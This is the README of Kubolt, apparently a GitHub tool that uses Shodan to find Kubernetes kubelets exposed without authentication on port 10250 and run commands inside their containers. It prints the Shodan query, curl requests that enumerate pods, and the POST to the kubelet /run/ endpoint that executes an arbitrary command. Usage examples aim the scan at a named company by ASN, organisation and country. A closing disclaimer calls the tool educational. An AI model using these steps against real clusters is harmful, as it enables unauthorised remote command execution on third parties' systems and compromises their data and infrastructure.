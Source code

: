 
<img src="./logo.png" width="270" height="270">

# Wat?
**Kubolt** is simple utility for scanning public unauthinticated kubernetes clusters and run commands inside containers

# Why?
Sometimes, the kubelet port 10250 is open to unauthorized access and makes it possible to run commands inside the containers using getrun function from [kubelet](https://github.com/kubernetes/kubernetes/blob/master/pkg/kubelet/server/server.go):
```go
// getRun handles requests to run a command inside a container.
func (s *Server) getRun(request *restful.Request, response *restful.Response) {
	params := getExecRequestParams(request)
	pod, ok := s.host.GetPodByName(params.podNamespace, params.podName)
	if !ok {
		response.WriteError(http.StatusNotFound, fmt.Errorf("pod does not exist"))
		return
	}
```

# How?
Okay, let's ask our friend Shodan :trollface:

The basic query is 
>ssl:true port:10250 404 

**Kubelet** uses port 10250 with SSL by default, 404 is the HTTP response without URL path. 

**Kubolt** asks Shodan by API for list of IP addresses and keeps them for other OSINT actions :grin:

Firstly, let's ask Kubelet for running pods and filter hosts where response doesn't contain `Unauthorized` and contains `container` so we can run command inside it. 
```bash
curl -k https://IP-from-Shodan:10250/runningpods/ 
```
Anyway, if you find the host without any running pods at the time, keep it for next time when pods might be started :grin: 

You can list all available pods from these requests:
```bash
curl -k https://IP-from-Shodan:10250/pods/
#or
curl http://IP-from-Shodan:10255/pods/ 
```

Next **kubolt** parse response and generate a new request as below:
```bash
curl -XPOST -k https://IP-from-Shodan:10250/run/<namespace>/<PodName>/<containerName> -d "cmd=<command-to-run>" 
```
You can target companies more accurate using Shodan filters such as:
- asn
- org
- country
- net

# Install 
```bash
mkdir output
pip install -r requirements.txt 
```

# Run
```python3
python kubolt.py --query "asn:123123 org:'ACME Corporation'"
#or
python kubolt.py --query "org:'ACME Corporation' country:UK"
```

# Shodan 
**Kubolt** uses Shodan API and [Query Credits](https://help.shodan.io/the-basics/credit-types-explained) accordingly, if you run the tool without query filters then you will probably fire all your credits `¯\_(ツ)_/¯`  

# Demo
![demo](/github-scale.gif)

# Important
The Tool provided by the author should only be used for educational purposes. The author can not be held responsible for the misuse of the Tool. The author is not responsible for any direct or indirect damage caused due to the usage of the Tool.


